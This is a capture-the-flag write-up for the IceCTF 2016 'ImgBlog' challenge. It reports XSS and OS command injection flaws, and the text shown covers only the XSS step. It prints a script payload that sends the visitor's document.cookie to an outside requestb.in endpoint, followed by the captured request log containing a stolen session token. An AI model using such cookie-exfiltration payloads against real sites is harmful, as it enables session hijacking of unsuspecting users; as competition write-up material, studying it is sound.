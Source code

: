 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/icectf-2016-stage4/
  - /blog/2016/08/27/icectf-2016-stage4/
date: "2016-08-27T01:22:17+09:00"
tags: [ "ctf", "writeup", "icectf" ]
"target_url": [ "https://icec.tf/" ]
---
```


# IceCTF 2016: stage4

## ImgBlog

<small>
[@tukejonny](https://twitter.com/tukejonny) did the OS command injection.
</small>

The service has $2$ vulnerabilities.
The first one is XSS, the second one is OS command injection.

After logging in, the `Report Comment` feature (and the individual comment page) has XSS.
Using <http://requestb.in>,

``` html
<script> location.href = "http://requestb.in/xxxxxxxx?" + document.cookie; </script>
```

and the result was:

```
GET /ssf1giss?session=eyJ1c2VyIjoxfQ.Cp3EEg.pisHXEaPJs2TdTCIUI2d5EbhKXE

QUERYSTRING
session: eyJ1c2VyIjoxfQ.Cp3EEg.pisHXEaPJs2TdTCIUI2d5EbhKXE

HEADERS
Via: 1.1 vegur
X-Request-Id: 4097be85-7f30-4431-8a98-6723d4af6cc8
Accept-Encoding: gzip
Accept-Language: en,*
Referer: http://127.0.0.1:5300/comment/99e0f33a39bad91b54e1e3c9ff59b4
Cf-Visitor: {"scheme":"http"}
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Host: requestb.in
Total-Route-Time: 0
Connect-Time: 0
Cf-Ipcountry: US
Cf-Ray: 2d6e33b9459d2567-ORD
Cf-Connecting-Ip: 104.154.248.13
Connection: close
```
